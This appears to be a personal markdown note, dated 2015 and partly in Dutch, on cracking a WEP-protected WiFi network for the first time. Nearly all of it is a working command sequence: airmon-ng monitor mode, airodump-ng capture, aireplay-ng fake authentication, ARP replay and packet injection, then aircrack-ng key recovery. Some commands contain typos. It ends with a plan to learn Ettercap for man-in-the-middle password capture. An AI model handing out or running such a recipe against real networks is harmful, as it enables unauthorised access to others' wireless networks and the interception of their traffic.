 ##27/11/2015

Hacked WiFi for the first time! ![FOTO](http://i.imgur.com/PP0AThP.png)

#Steps/Commands

###Wireless Reconnaiccance:
**Window 1**
* iwconfig
* airmon-ng start wlan0
* airodump-ng "INTERFACE"
* Find information in table
  * ESSID
  * BSSID
  * Channel
  * Client's  MAC

###Wireless Equivalent Privacy(WEP):
**Window 1**
* airmon-ng
  * Find "INTERFACE"
* airodump-ng "INTERFACE"
* Find information in table
	
**New window 2**
* airodump-ng --bssid "BSSID" -c "Channel" -w wep_log "INTERFACE"

**New window 3** 
* ifconfig 
* Find own MAC

**New window 4**
* airoplay-ng -l 0 -a "BSSID" -h "client MAC" -e "name connaction" "INTERFACE" --ignore-negative-one
* airoplay-ng -3 -b "BSSID" -h "client MAC" "INTERFACE" --ignore-negative-one

**New window 5**
* aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b "BSSID" -h "client MAC" "INTERFACE" --ignore-negative-one
* use this packet? ENTER

**Window 2** 
* Everything is fine if data is above 5000 
* Close window 2, 3, 4, 5

**First window**	
* clear
* aircrack-ng -a l -b "BSSID" -n 64 wep_log-01.cap
	
**_FIND PASSWORD!!!!_**

Next time: Script schrijven!

TODO: Ethercap opzoeken (Hoe wachtwoorden "vangen" !?) -> Man in the middle attack
